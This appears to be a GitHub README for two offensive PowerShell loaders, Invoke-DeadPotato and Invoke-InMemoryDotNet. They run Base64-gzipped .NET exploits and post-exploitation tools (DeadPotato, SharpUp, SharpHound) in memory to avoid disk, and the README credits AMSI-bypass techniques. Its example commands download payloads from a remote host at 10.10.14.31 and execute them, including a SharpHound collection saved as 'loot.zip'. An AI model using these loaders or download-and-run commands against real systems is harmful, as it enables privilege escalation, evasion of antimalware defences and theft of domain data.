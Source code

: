 ### Inspiration and code that has been incorporated into these scripts

- https://thalpius.com/2021/10/14/microsoft-windows-antimalware-scan-interface-bypasses/
- https://www.rewterz.com/blog/how-i-bypassed-amsi-statically-using-windbg
- https://rxored.github.io/post/csharploader/bypassing-amsi-with-csharp/#amsiscanbuffer
- https://medium.com/@sam.rothlisberger/amsi-bypass-memory-patch-technique-in-2024-f5560022752b


- **Invoke-InMemoryDotNet** – A generalized loader for any .NET assembly with a static `Main(string[] args)` method.
- **Invoke-DeadPotato** – A specific loader for the DeadPotato exploit

## Invoke-DeadPotato

`Invoke-DeadPotato` is a specialized PowerShell loader designed to execute the **DeadPotato** .NET exploit (or any similarly structured binary) directly from memory. It supports embedded or remotely hosted gzipped+Base64 payloads.

### Features

- Loads DeadPotato (or similar tool) from Base64+gzipped payload
- Executes in-memory without touching disk
- Allows command-line arguments (e.g., `-cmd whoami`)
- Captures console output and returns result

### Parameters

| Parameter    | Description                                      |
|-------------|--------------------------------------------------|
| `-Arguments` | Command-line string to pass to DeadPotato        |
| `-UseRemote` | Optional URL to load gzipped+Base64 binary       |

### Examples

#### Run embedded DeadPotato
```powershell
Invoke-DeadPotato -Arguments "-cmd whoami"
```

#### Download and execute
```powershell
Invoke-DeadPotato -UseRemote "http://10.10.14.31/dp.gz.b64" -Arguments "-cmd whoami"
```

### Notes

- The class name must be `DeadPotato.Program` with a public static `Main` method.
- You must insert a valid gzipped Base64-encoded payload into the `$b64` variable or provide a URL to it.
- Output is captured and returned as a string.


## Invoke-InMemoryDotNet (not extensively tested yet)

`Invoke-InMemoryDotNet` is a PowerShell loader that dynamically executes any .NET assembly in memory. It supports embedded payloads or remote retrieval via URL. The assembly must expose a public static `Main(string[] args)` method.

### Features

- Executes gzipped + Base64-encoded .NET assemblies entirely in memory
- Supports embedded payload or remote download via HTTP/S
- Captures and returns all `Console.WriteLine` output
- Generic support for any .NET tool with a `Main` entry point (e.g., SharpUp, SharpHound, Seatbelt)

### Parameters

| Parameter    | Description                                       |
|-------------|---------------------------------------------------|
| `-Arguments` | String of arguments to pass to the Main method    |
| `-UseRemote` | URL pointing to a gzipped+Base64-encoded payload  |
| `-TypeName`  | Optional: class name containing the Main method   |
| `-MethodName`| Optional: method to invoke (default: `Main`)      |

### Examples

#### Run embedded payload
```powershell
Invoke-InMemoryDotNet -Arguments "-f all"
```

#### Download SharpUp and run
```powershell
Invoke-InMemoryDotNet -UseRemote "http://10.10.14.31/SharpUp.gz.b64" -Arguments "-f all"
```

#### Execute SharpHound collector
```powershell
Invoke-InMemoryDotNet -UseRemote "http://10.10.14.31/SharpHound.gz.b64" -Arguments "--CollectionMethod All --ZipFileName loot.zip"
```

